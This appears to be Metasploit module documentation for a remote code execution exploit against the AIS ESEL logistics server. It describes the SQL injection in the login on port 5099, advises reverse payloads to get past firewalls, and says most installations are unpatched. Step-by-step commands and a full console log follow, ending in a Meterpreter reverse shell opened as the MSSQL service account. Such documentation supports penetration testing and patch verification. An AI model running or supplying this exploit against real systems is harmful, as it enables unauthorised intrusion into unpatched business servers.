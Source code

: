 ## Description

    This module will execute an arbitrary payload on an "ESEL" server used by the
    AIS logistic software. The server typically listens on port 5099 without TLS.
    There could also be server listening on 5100 with TLS but the port 5099 is
    usually always open.
    The login process is vulnerable to an SQL Injection. Usually a MSSQL Server
    with the sa user is in place.

    This module was verified on version 67 but it should also run on lower versions.
    An fixed version was created by AIS in September 2017. However most systems
    have not been updated.`

    In regard to the payload, unless there is a closed port in the web server,
    you dont want to use any bind payload. You want a "reverse" payload,
    probably to your port 80 or to any other outbound port allowed on the firewall.

    Currently, one delivery method is supported

    This method takes advantage of the Command Stager subsystem. This allows using
    various techniques, such as using a TFTP server, to send the executable. By default
    the Command Stager uses 'wcsript.exe' to generate the executable on the target.

    NOTE: This module will leave a payload executable on the target system when the
    attack is finished.

## Vulnerable Application

  The application is not publicily available. It was tested on Esel version 67 but should also work an versions below.

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ais_esel_server_rce`
  3. `set RHOSTS <IP>`
  4. `check`
  5. **Verify** "Server is vulnerable"
  6. `run`
  7. **Verify** Session opened


## Scenarios

    msf5 > use exploit/windows/misc/ais_esel_server_rce 
    msf5 exploit(windows/misc/ais_esel_server_rce) > set rhosts 10.66.75.212
    rhosts => 10.66.75.212
          msf5 exploit(windows/misc/ais_esel_server_rce) > check
          [+] 10.66.75.212:5099 - The target is vulnerable.
    msf5 exploit(windows/misc/ais_esel_server_rce) > run

    [*] Started reverse TCP handler on 10.66.75.208:4444 
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [*] 10.66.75.212:5099 - Command Stager progress -   1.47% done (1499/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [*] 10.66.75.212:5099 - Command Stager progress -   2.93% done (2998/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
          ...
    [*] 10.66.75.212:5099 - Command Stager progress -  99.55% done (101827/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send succesfully
    [*] Sending stage (179779 bytes) to 10.66.75.212
    [*] 10.66.75.212:5099 - Command Stager progress - 100.00% done (102292/102292 bytes)
    [!] 10.66.75.212:5099 - The payload is left on the client in the %TEMP% Folder of the corresponding user.
    [*] 10.66.75.212:5099 - Stager should now be executed. Waiting for 20 seconds..
    [*] Meterpreter session 1 opened (10.66.75.208:4444 -> 10.66.75.212:57107) at 2019-03-27 11:04:29 +0100

    meterpreter > getuid
    Server username: NT Service\MSSQL$AIS

